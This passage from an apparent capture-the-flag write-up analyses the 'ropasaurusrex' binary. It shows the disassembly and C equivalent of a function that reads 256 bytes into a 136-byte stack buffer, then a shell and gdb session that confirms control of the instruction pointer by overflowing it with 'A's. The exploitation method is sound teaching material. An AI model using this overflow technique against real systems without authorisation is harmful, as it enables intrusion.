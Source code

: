 ```
<span class="lnr"> 7 </span>  <span class="Statement">.text</span>:080483F7         <span class="Identifier">sub</span>     <span class="Identifier">esp</span>, <span class="Constant">98</span><span class="Identifier">h</span>
<span class="lnr"> 8 </span>  <span class="Statement">.text</span>:080483FD         <span class="Identifier">mov</span>     <span class="Identifier">dword</span> <span class="Identifier">ptr</span> [<span class="Identifier">esp</span>+<span class="Constant">8</span>], <span class="Constant">100</span><span class="Identifier">h</span> <span class="Comment">; nbytes</span>
<span class="lnr"> 9 </span>  <span class="Statement">.text</span>:08048405         <span class="Identifier">lea</span>     <span class="Identifier">eax</span>, [<span class="Identifier">ebp</span>+<span class="Identifier">buf</span>]
<span class="lnr">10 </span>  <span class="Statement">.text</span>:0804840B         <span class="Identifier">mov</span>     [<span class="Identifier">esp</span>+<span class="Constant">4</span>], <span class="Identifier">eax</span>    <span class="Comment">; buf</span>
<span class="lnr">11 </span>  <span class="Statement">.text</span>:0804840F         <span class="Identifier">mov</span>     <span class="Identifier">dword</span> <span class="Identifier">ptr</span> [<span class="Identifier">esp</span>], <span class="Constant">0 </span><span class="Comment">; fd</span>
<span class="lnr">12 </span>  <span class="Statement">.text</span>:08048416         <span class="Identifier">call</span>    <span class="Identifier">_read</span>
<span class="lnr">13 </span>  <span class="Statement">.text</span>:0804841B         <span class="Identifier">leave</span>
<span class="lnr">14 </span>  <span class="Statement">.text</span>:0804841C         <span class="Identifier">retn</span>
<span class="lnr">15 </span>  <span class="Statement">.text</span>:0804841C<span class="Identifier">vulnerable_function</span> <span class="Identifier">endp</span>
```

Now, if you don't know assembly, this might look daunting. But, in fact, it's simple. Here's the equivalent C:

```

<span class="lnr">1 </span>  <span class="Type">ssize_t</span> __cdecl vulnerable_function()
<span class="lnr">2 </span>  {
<span class="lnr">3 </span>    <span class="Type">char</span> buf[<span class="Constant">136</span>];
<span class="lnr">4 </span>    <span class="Statement">return</span> read(<span class="Constant">0</span>, buf, <span class="Constant">256</span>);
<span class="lnr">5 </span>  }
```

So, it reads 256 bytes into a 136-byte buffer. Goodbye Mr. Stack!

You can easily validate that by running it in by piping in a bunch of 'A's and seeing what happens:

```

<span class="lnr">1 </span>  ron@debian-x86 ~ $ <span class="Statement">ulimit</span> <span class="Special">-c</span> unlimited
<span class="lnr">2 </span>  ron@debian-x86 ~ $ perl <span class="Special">-e</span> <span class="Statement">"</span><span class="Constant">print 'A'x300</span><span class="Statement">"</span> | ./ropasaurusrex
<span class="lnr">3 </span>  Segmentation fault <span class="PreProc">(</span><span class="Special">core dumped</span><span class="PreProc">)</span>
<span class="lnr">4 </span>  ron@debian-x86 ~ $ gdb ./ropasaurusrex core
<span class="lnr">5 </span>  <span class="Statement">[</span>...<span class="Statement">]</span>
<span class="lnr">6 </span>  Program terminated with signal <span class="Constant">11</span>, Segmentation fault.
<span class="lnr">7 </span>  <span class="Comment">#0  0x41414141 in ?? ()</span>
<span class="lnr">8 </span>  <span class="PreProc">(</span><span class="Special">gdb</span><span class="PreProc">)</span>
```
